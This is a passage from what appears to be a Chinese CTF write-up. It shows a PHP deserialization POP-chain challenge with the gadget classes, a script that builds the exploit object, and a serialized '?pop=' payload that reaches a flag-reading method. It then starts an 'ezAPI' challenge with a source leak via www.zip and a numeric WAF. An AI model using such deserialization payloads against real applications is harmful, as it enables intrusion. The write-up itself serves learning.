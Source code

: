 ```php
    }

    public function __invoke()
    {
        echo file_get_contents('/flag');
    }
}

class Easy{
    public $cla;

    public function __call($fun, $var)
    {
        $this->cla = clone $var[0];
    }
}

class eeee{
    public $obj;
    
    public function __clone()
    {
        if(isset($this->obj->cmd)){
            echo "success";
        }
    }
}
$c=new eeee();
$a=new Start();
$c->obj=$a;
$b=new Sec();
$b->var=$c;
$a->name=$b;
echo serialize($c);


```

```php
?pop=O:4:"eeee":1:{s:3:"obj";O:5:"Start":2:{s:4:"name";O:3:"Sec":2:{s:3:"obj";O:4:"Easy":1:{s:3:"cla";N;}s:3:"var";r:1;}s:4:"func";O:3:"Sec":2:{s:3:"obj";O:4:"Easy":1:{s:3:"cla";N;}s:3:"var";N;}}}
```

## 4.ezAPI

进去后访问www.zip获取源码

```
<html>
    <body>
        <center>
            <h1>Search Page</h1><br>
            <hr><br>
            <form action="" method="post">
            请输入用户ID: 
            <input type="text" name="id">
            <input type="submit" value="Search">
            </form>
<?php
error_reporting(0);
$id = $_POST['id'];
function waf($str){
    if(!is_numeric($str) || preg_replace("/[0-9]/","",$str) !== ""){#判断是否为数字字符串如果不是或者如果替换掉里的数字不为空就返回False,需要全部都不满足
```